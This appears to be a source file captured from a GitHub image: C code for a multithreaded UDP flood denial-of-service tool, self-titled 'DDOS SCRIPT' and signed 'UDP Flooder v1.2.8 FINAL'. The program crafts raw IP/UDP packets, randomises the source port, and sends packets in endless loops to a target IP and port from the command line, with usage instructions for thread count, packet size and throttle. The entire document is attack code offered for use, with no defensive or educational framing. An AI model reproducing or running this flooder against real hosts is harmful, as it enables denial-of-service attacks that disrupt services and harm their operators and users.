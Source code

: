 # DDOS SCRIPT  PERL UDP AND MORE

#include <time.h>
#include <arpa/inet.h>
#include <ifaddrs.h>
#include <netdb.h>
#include <pthread.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
 
#define MAX_PACKET_SIZE 4096
#define PHI 0x9e3779b9
 
static uint32_t Q[4096], c = 362436;

struct thread_data{
        int pks;
        int throttle;
	int thread_id;
	unsigned int floodport;
	struct sockaddr_in sin;
};
 
void init_rand(uint32_t x)
{
        int i;
 
        Q[0] = x;
        Q[1] = x + PHI;
        Q[2] = x + PHI + PHI;
 
        for (i = 3; i < 4096; i++)
                Q[i] = Q[i - 3] ^ Q[i - 2] ^ PHI ^ i;
}
 
uint32_t rand_cmwc(void)
{
        uint64_t t, a = 18782LL;
        static uint32_t i = 4095;
        uint32_t x, r = 0xfffffffe;
        i = (i + 1) & 4095;
        t = a * Q[i] + c;
        c = (t >> 32);
        x = t + c;
        if (x < c) {
                x++;
                c++;
        }
        return (Q[i] = r - x);
}

char *myStrCat (char *s, char *a) {
    while (*s != '\0') s++;
    while (*a != '\0') *s++ = *a++;
    *s = '\0';
    return s;
}

char *replStr (char *str, size_t count) {
    if (count == 0) return NULL;
    char *ret = malloc (strlen (str) * count + count);
    if (ret == NULL) return NULL;
    *ret = '\0';
    char *tmp = myStrCat (ret, str);
    while (--count > 0) {
        tmp = myStrCat (tmp, str);
    }
    return ret;
}


/* function for header checksums */
unsigned short csum (unsigned short *buf, int nwords)
{
  unsigned long sum;
  for (sum = 0; nwords > 0; nwords--)
  sum += *buf++;
  sum = (sum >> 16) + (sum & 0xffff);
  sum += (sum >> 16);
  return (unsigned short)(~sum);
}
void setup_ip_header(struct iphdr *iph)
{
  struct ifaddrs *ifaddr, *ifa;
           int family, s;
           char host[NI_MAXHOST];

           if (getifaddrs(&ifaddr) == -1) {
               perror("getifaddrs");
               exit(EXIT_FAILURE);
           }

           /* Walk through linked list, maintaining head pointer so we
              can free list later */

           for (ifa = ifaddr; ifa != NULL; ifa = ifa->ifa_next) {
               if (ifa->ifa_addr == NULL)
                   continue;

               family = ifa->ifa_addr->sa_family;

               if (family == AF_INET) {
                   s = getnameinfo(ifa->ifa_addr,sizeof(struct sockaddr_in),
                           host, NI_MAXHOST, NULL, 0, NI_NUMERICHOST);
                   if (s != 0) {
                       printf("getnameinfo() failed: %s\n", gai_strerror(s));
                       exit(EXIT_FAILURE);
                   }
                   if(strcmp(host, "127.0.0.1") != 0){
                       break;
                   }
               }
           }
           freeifaddrs(ifaddr);
  iph->ihl = 5;
  iph->version = 4;
  iph->tos = 0;
  iph->tot_len = sizeof(struct iphdr) + sizeof(struct udphdr);
  iph->id = htonl(54321);
  iph->frag_off = 0;
  iph->ttl = MAXTTL;
  iph->protocol = IPPROTO_UDP;
  iph->check = 0;

  // Initial IP, changed later in infinite loop
  iph->saddr = inet_addr(host);
}

void setup_udp_header(struct udphdr *udph)
{
  udph->source = htons(5678);
  udph->check = 0;
}

void *flood(void *par1)
{
  struct thread_data *td = (struct thread_data *)par1;
  fprintf(stdout, "Thread %d started\n", td->thread_id);
  char datagram[MAX_PACKET_SIZE];
  struct iphdr *iph = (struct iphdr *)datagram;
  struct udphdr *udph = (/*u_int8_t*/void *)iph + sizeof(struct iphdr);
  struct sockaddr_in sin = td->sin;
  char new_ip[sizeof "255.255.255.255"];

  int s = socket(PF_INET, SOCK_RAW, IPPROTO_TCP);
  if(s < 0){
    fprintf(stderr, "Could not open raw socket.\n");
    exit(-1);
  }

  unsigned int floodport = td->floodport;

  // Clear the data
  memset(datagram, 0, MAX_PACKET_SIZE);

  // Set appropriate fields in headers
  setup_ip_header(iph);
  setup_udp_header(udph);

  char *data = (char *)udph + sizeof(struct udphdr);
  data = replStr("\xFF", td->pks);
  udph->len=htons(td->pks);

  iph->tot_len += td->pks;

  udph->dest = htons(floodport);

  iph->daddr = sin.sin_addr.s_addr;
  iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);

  int tmp = 1;
  const int *val = &tmp;
  if(setsockopt(s, IPPROTO_IP, IP_HDRINCL, val, sizeof (tmp)) < 0){
    fprintf(stderr, "Error: setsockopt() - Cannot set HDRINCL!\n");
    exit(-1);
  }

  int throttle = td->throttle;

  uint32_t random_num;
  uint32_t ul_dst;
  init_rand(time(NULL));
  if(throttle == 0){
    while(1){
      sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *) &sin, sizeof(sin));
      random_num = rand_cmwc();
      udph->source = htons(random_num & 0xFFFF);
      iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);
    }
  } else {
    while(1){
      throttle = td->throttle;
      sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *) &sin, sizeof(sin));
      random_num = rand_cmwc();
      udph->source = htons(random_num & 0xFFFF);
      iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);

     while(--throttle);
    }
  }
}
int main(int argc, char *argv[ ])
{
  if(argc < 6){
    fprintf(stderr, "Invalid parameters!\n");
    fprintf(stdout, "UDP Flooder v1.2.8 FINAL by ohnoes1479\nUsage: %s <target IP/hostname> <port to be flooded> <throttle (lower is faster)> <packet size> <number threads to use> <time (optional)>\n", argv[0]);
    exit(-1);
  }

  fprintf(stdout, "Setting up Sockets...\n");

  int num_threads = atoi(argv[5]);
  int packet_size = atoi(argv[4]);
  unsigned int floodport = atoi(argv[2]);
  pthread_t thread[num_threads];
  struct sockaddr_in sin;

  sin.sin_family = AF_INET;
  sin.sin_port = htons(floodport);
  sin.sin_addr.s_addr = inet_addr(argv[1]);

  struct thread_data td[num_threads];

  int i;
  for(i = 0;i<num_threads;i++){
    td[i].thread_id = i;
    td[i].pks = packet_size;
    td[i].sin = sin;
    td[i].floodport = floodport;
    td[i].throttle = atoi(argv[3]);
    pthread_create( &thread[i], NULL, &flood, (void *) &td[i]);
  }
  fprintf(stdout, "Starting Flood...\n");
  if(argc > 6)
  {
    sleep(atoi(argv[6]));
  } else {
    while(1){
      sleep(1);
    }
  }

  return 0;
}
